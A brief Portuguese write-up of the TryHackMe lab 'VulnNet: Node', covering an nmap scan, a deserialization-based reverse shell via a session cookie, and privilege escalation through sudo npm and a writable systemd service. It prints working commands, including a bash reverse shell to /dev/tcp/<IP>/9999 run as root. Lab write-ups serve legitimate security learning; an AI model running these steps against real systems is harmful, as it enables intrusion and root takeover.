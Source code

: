 # VulnNet: Node
https://tryhackme.com/room/vulnnetnode

## Recon e exploração

### NMAP

    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Node.js Express framework

### Insecure Deserialization

O site tem um cookie de sessão em base64 onde o atributo "username" da para injetar um reverse shell

## Privesc

### www -> serv-manage

O usuario "www" tem permissão de rodar __/usr/bin/npm__ como usuario "serv-manage" sem a necessidade de inserir senha. Com isso basta rodar:

```sh
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
cd $TF
chmod 777 .
sudo -u serv-manage /usr/bin/npm run preinstall
```

### serv-manage -> root

Rodando "sudo -l" temos:

    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload

o "vulnnet-auto.timer" roda um arquivo chamado __vulnnet-job.service__ que possui permissão de escrita, alterando esse arquivo para acessar o root, ficou assim:

```sh
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

Depois bastou executar:

```sh
sudo -u root /bin/systemctl start vulnnet-auto.timer
```

GG
